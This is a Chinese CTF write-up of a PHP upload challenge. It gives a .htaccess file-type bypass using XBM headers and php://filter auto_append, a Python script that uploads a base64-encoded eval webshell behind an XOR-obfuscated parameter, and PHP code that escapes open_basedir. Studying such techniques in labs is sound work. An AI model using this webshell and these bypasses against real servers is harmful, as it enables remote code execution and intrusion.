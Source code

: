 文件内容没有`<?`，第一时间就是想到了<script language="php"></script>来绕过,但是因为这题的PHP版本是7.3.4，<script language="php"></script>这种写法在PHP7以后就不支持了，因此不行。



又有一种新姿势

```
#define width 1337
#define height 1337 
AddType application/x-httpd-php .feng
php_value auto_append_file "php://filter/convert.base64-decode/resource=./shell.sss
```

通过filter协议直接读取shell.sss文件，在shell.sss写好base64编码的马，然后filter解码就可以达到效果。

至于上传文件，我们利用python脚本上传。

```php
import requests
import base64

# 上传文件需要二进制。
htaccess = b"""
#define width 1337
#define height 1337 
AddType application/x-httpd-php .sss
php_value auto_append_file "php://filter/convert.base64-decode/resource=./shell.sss"
"""
shell = b"GIF89a11" + base64.b64encode(b"<?php eval($_POST['cmd']);?>")  #GIF89后的11是为了满足base64编码
url = "http://832153d1-9878-4fc7-99cd-c19622756344.node4.buuoj.cn:81/?_=${%86%86%86%86^%d9%c1%c3%d2}{%86}();&%86=get_the_flag"

files = {'file':('.htaccess',htaccess,'image/jpeg')}
data = {"upload":"Submit"}
response = requests.post(url=url, data=data, files=files)
print(response.text)

files = {'file':('shell.sss',shell,'image/jpeg')}
response = requests.post(url=url, data=data, files=files)
print(response.text)


```

得到了上传路径后，直接蚁剑连接

但是查看phpinfo()后，存在`open_basedir`，这儿就要[绕过open_basedir](https://blog.csdn.net/unexpectedthing/article/details/121916703)

```
mkdir('flag');
chdir('flag');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
var_dump(scandir('/'));
```
